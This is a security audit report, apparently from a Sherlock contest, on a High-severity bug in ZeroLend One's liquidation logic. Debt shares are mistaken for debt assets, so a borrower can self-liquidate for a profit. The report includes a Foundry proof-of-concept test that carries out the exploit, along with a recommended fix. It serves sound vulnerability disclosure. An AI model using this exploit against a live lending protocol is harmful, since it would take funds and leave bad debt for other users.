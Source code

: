 Innocent Chartreuse Parrot

High

# Debt shares are mistaken for debt assets during liquidations

## Summary
Debt shares are mistaken for debt assets during liquidations. This allows a violator to potentially self liquidate for a profit and create bad debt for the protocol.

## Vulnerability Detail
During liquidations, the debt shares of the violator are mistakenly used to represent their debt balance. 

[LiquidationLogic::executeLiquidationCall](https://github.com/sherlock-audit/2024-06-new-scope/blob/main/zerolend-one/contracts/core/pool/logic/LiquidationLogic.sol#L117-L122)
```solidity
    (vars.userDebt, vars.actualDebtToLiquidate) = _calculateDebt(
      // vars.debtReserveCache,
      params,
      vars.healthFactor,
      balances
    );
```

[LiquidationLogic::_calculateDebt](https://github.com/sherlock-audit/2024-06-new-scope/blob/main/zerolend-one/contracts/core/pool/logic/LiquidationLogic.sol#L259-L272)
```solidity
  function _calculateDebt(
    DataTypes.ExecuteLiquidationCallParams memory params,
    uint256 healthFactor,
    mapping(address => mapping(bytes32 => DataTypes.PositionBalance)) storage balances
  ) internal view returns (uint256, uint256) {
    uint256 userDebt = balances[params.debtAsset][params.position].debtShares; // @audit: confuses debt shares for debt assets


    uint256 closeFactor = healthFactor > CLOSE_FACTOR_HF_THRESHOLD ? DEFAULT_LIQUIDATION_CLOSE_FACTOR : MAX_LIQUIDATION_CLOSE_FACTOR;


    uint256 maxLiquidatableDebt = userDebt.percentMul(closeFactor); // @audit: max is "debt shares" amount of assets if hf <= 95%


    uint256 actualDebtToLiquidate = params.debtToCover > maxLiquidatableDebt ? maxLiquidatableDebt : params.debtToCover;


    return (userDebt, actualDebtToLiquidate); // @audit: both values are same if hf <= 95% 
```

As we can see above, the `userDebt` is valued at `debt shares` amount of assets and when the unhealthy violator's health factor is <= `CLOSE_FACTOR_HF_THRESHOLD`, the `actualDebtToLiquidate` will be equal to the `userDebt`. When this occurs, the protocol will remove the debt reserve from the user's configuration:

[LiquidationLogic::executeLiquidationCall](https://github.com/sherlock-audit/2024-06-new-scope/blob/main/zerolend-one/contracts/core/pool/logic/LiquidationLogic.sol#L150-L152)
```solidity
    if (vars.userDebt == vars.actualDebtToLiquidate) { // @audit: both values are equal to `debt shares` amount of debt assets
      userConfig.setBorrowing(debtReserve.id, false);
    }
```

Therefore, only `debt shares` amount of the violator's debt will be repaid, but the protocol will think that *all* the debt has been repaid. As a result, no interest will be repaid, debt shares equivalent to `debt_balance - debt_shares`  in assets will still exist and continue to accrue interest (this is bad debt), and if the violator performed a self liquidation then they will effectively pocket `debt_balance - interest - debt_shares` worth of the borrowed assets. Once this occurs the violator can freely withdraw their remaining collateral since the protocol believes that they no longer have debt. 

## Proof of Concept
Modify the following lines in `PoolLiquidationTests.t.sol` and run test with `forge test --mc PoolLiquidationTest --mt testSelfLiquidateExploit`:

```diff
diff --git a/./test/forge/core/pool/PoolLiquidationTests.t.sol b/./test/forge/core/pool/PoolLiquidationTests.t.sol
index e770be3..543981d 100644
--- a/./test/forge/core/pool/PoolLiquidationTests.t.sol
+++ b/./test/forge/core/pool/PoolLiquidationTests.t.sol
@@ -7,9 +7,12 @@ import {ReserveConfiguration} from './../../../../contracts/core/pool/configurat

 import {UserConfiguration} from './../../../../contracts/core/pool/configuration/UserConfiguration.sol';

+import {WadRayMath} from '../../../../contracts/core/pool/utils/WadRayMath.sol';
+
 contract PoolLiquidationTest is PoolSetup {
   using UserConfiguration for DataTypes.UserConfigurationMap;
   using ReserveConfiguration for DataTypes.ReserveConfigurationMap;
+  using WadRayMath for uint256;

   address alice = address(1);
   address bob = address(2);
@@ -80,6 +83,64 @@ contract PoolLiquidationTest is PoolSetup {

     assertEq(tokenB.balanceOf(alice), borrowAmountB);

-    oracleA.updateAnswer(5e3);
+    oracleA.updateAnswer(0.43e8);
+  }
+
+  function testSelfLiquidateExploit() external {
+    // beginning state: borrow index is > 1
+    address user = address(0x69420);
+    _mintAndApprove(user, tokenB, 2000e18, address(pool));
+    vm.startPrank(user);
+
+    pool.supplySimple(address(tokenB), user, 2000e18, 0);
+    pool.borrowSimple(address(tokenB), user, 800e18, 0);
+    vm.stopPrank();
+
+    vm.warp(block.timestamp + 10 days);
+    pool.forceUpdateReserve(address(tokenB));
+    assertGt(pool.getReserveNormalizedVariableDebt(address(tokenB)), 1e27);
+
+    // update oracle answers to avoid stale price error for tests
+    oracleB.updateAnswer(oracleB.latestAnswer());
+    oracleA.updateAnswer(oracleA.latestAnswer());
+
+    // create liquidation scenario. For simplicity we will ignore any accrued interest for the violator's debt position
+    _generateLiquidationCondition();
+    uint256 debtShares = pool.getBalanceRaw(address(tokenB), alice, 0).debtShares;
+
+    (,,,,,uint256 hf) = pool.getUserAccountData(alice, 0);
+    assertLt(hf, 0.95e18);
+
+    uint256 debtTokenBalanceBefore = tokenB.balanceOf(alice);
+
+    // violator self-liquidates and only repays `debt shares` amount of assets
+    vm.startPrank(alice);
+    tokenB.approve(address(pool), type(uint256).max);
+    pool.liquidateSimple(address(tokenA), address(tokenB), pos, debtShares);
+    vm.stopPrank();
+
+    uint256 debtTokenBalanceAfter = tokenB.balanceOf(alice);
+
+    (, uint256 totalDebtBaseNew,,,,) = pool.getUserAccountData(alice, 0);
+
+    uint256 debtRepaid = debtTokenBalanceBefore - debtTokenBalanceAfter;
+
+    // `debtShares` amount of debt repaid
+    assertEq(debtRepaid, debtShares);
+
+    // the entire debt has not been repaid
+    assertLt(debtRepaid, borrowAmountB);
+
+    // however the protocol thinks all debt has been repaid (reserve removed from user's config)
+    assertEq(totalDebtBaseNew, 0);
+
+    // violator's position still has debt shares (bad debt)
+    uint256 remainingDebtShares = pool.getBalanceRaw(address(tokenB), alice, 0).debtShares;
+    assertGt(remainingDebtShares, 0);
+
+    // profit is equal to bad debt created and can be calculated as `original_borrow_amount - debt_shares_amount` 
+    uint256 profit = remainingDebtShares.rayMul(pool.getReserveNormalizedVariableDebt(address(tokenB)));
+    assertEq((borrowAmountB - debtShares), (profit + 1)); // +1 to account for rounding
   }
 }
```

## Impact
Unhealthy borrowers who have a debt position that has a health factor <= 95% can self-liquidate to avoid paying any interest accrued on their debt and pocket the different of their original borrowed amount and their debt shares, thereby instantly creating bad debt for the protocol which will continue to earn interest. 

Notes regarding amounts:
- the amount of bad debt instantly created will be equal to `debt_balance_amount - debt_shares_amount` in assets, and their equivalence in debt shares.
- the amount of profit for the violator will be equal to `original_borrow_amount - debt_shares_amount` in assets. Therefore, a greater `borrowIndex` at the time of the borrow will yield a higher percentage of profit for the violator. 

Note that even if a violator is not able to self liquidate, any *full/max* liquidation for an unhealthy position with a health factor of `<= 95%` will result in no interest being repaid and bad debt being created, since only `debt shares` amount of assets can at most be repaid. 

## Code Snippet
https://github.com/sherlock-audit/2024-06-new-scope/blob/main/zerolend-one/contracts/core/pool/logic/LiquidationLogic.sol#L259-L272

## Tool used

Manual Review

## Recommendation
Calculate the violator's up to date debt balance properly by multiplying the debt shares by the updated borrow index:

```solidity
uint256 userDebt = balances[params.debtAsset][params.position].debtShares.rayMul(borrowIndex)
```